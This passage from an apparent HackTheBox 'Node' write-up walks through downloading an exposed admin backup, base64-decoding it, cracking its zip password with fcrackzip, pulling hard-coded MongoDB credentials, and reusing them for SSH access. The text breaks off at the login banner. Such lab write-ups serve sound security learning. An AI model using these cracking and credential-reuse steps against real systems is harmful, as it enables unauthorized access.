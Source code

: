 Here, I found a backup folder, which I dowonloaded to check out its contents.

NOTE: A strange thing happened with me, I was not able to download the backup file. If it happens with you too, Don't Worry!! Just go to the `/api/admin/backup` endpoint, and you'll get a long sequence of ASCII characters and that's exactly what is in the file you'd download in the `Download Backup`.


Now, on inspecting it, they seemed like they were `Base64` encoded. So, I decided to decode it

```
cat myplace.backup | base64 --decode > myplace-decoded.backup
```

Now, on viewing the file type, I found that it was zip file.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Node]
└─$ file myplace-decoded.backup 
myplace-decoded.backup: Zip archive data, at least v1.0 to extract, compression method=store
```

So, I tried to decompress it.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Node]
└─$ unzip myplace-decoded.backup
[myplace-decoded.backup] var/www/myplace/package-lock.json password:
```

It was password-protected. I ran `fcrackzip` which is a password cracker for zip files.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Node]
└─$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt myplace-decoded.backup
...[snip]...
PASSWORD FOUND!!!!: pw == magicword
```

Once, I found the password, i unzipped the file using the cracked password. Looking at the contents I found another username and password.

```
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';
```

I found a username `mark` and a password `5AYRft73VtFpc84k` to connect to mongodb locally. We also see a `backup_key` which we’re not sure where it’s used, but we’ll make note of it.

## Inital Foothold.
I tried using these credentials to log into ssh to see if it worked and it actually did!

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Node]
└─$ ssh mark@10.10.10.58                  
The authenticity of host '10.10.10.58 (10.10.10.58)' can't be established.
ED25519 key fingerprint is SHA256:l5rO4mtd28sC7Bh8t7rHpUxqmHnGYUDxX1DHmLFrzrk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.58' (ED25519) to the list of known hosts.
mark@10.10.10.58's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
              .-. 
        .-'``(|||) 
```